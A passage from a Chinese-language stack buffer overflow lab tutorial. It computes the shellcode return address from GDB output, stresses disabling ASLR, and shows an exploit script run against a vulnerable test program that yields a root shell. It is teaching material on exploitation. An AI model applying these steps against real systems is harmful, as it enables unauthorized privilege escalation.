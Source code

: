 现在的关键点在于ret_addr是多少，它代表着Shellcode的起始地址，这于它在buf中的存放位置有关系，根据上面py脚本中的位置，可以算出scode的起始位置与buf的起点偏移是72字节，所以，关键是找到buf的地址，ret_addr = &buf + 0x48 。

再次重申，一定要关闭ASLR，不然，每次运行的buf的地址都是变化的，攻击也就无法瞄准目标了。

通过GDB 断点在func开始处，打印一下&buf值就可以知道它的值了：

```
gdb-peda$ p &buf
$1 = (char (*)[56]) 0xbffff038
gdb-peda$ p 0xbffff038+0x48
$2 = 0xbffff080
```
得到ret_addr的值后，攻击脚本就算可用了，运行测试：

```
magc@magc-VirtualBox:~/workspace/sec_experiements99/7_experiment$ python exploit.py 
Calling vulnerable program!!!
#   
```
可以看出，前缀符已经变成#，表示已经获得root权限了。攻击成功！！！
















# 参考
- http://www.csyssec.org/20161230/stackbufferflow/
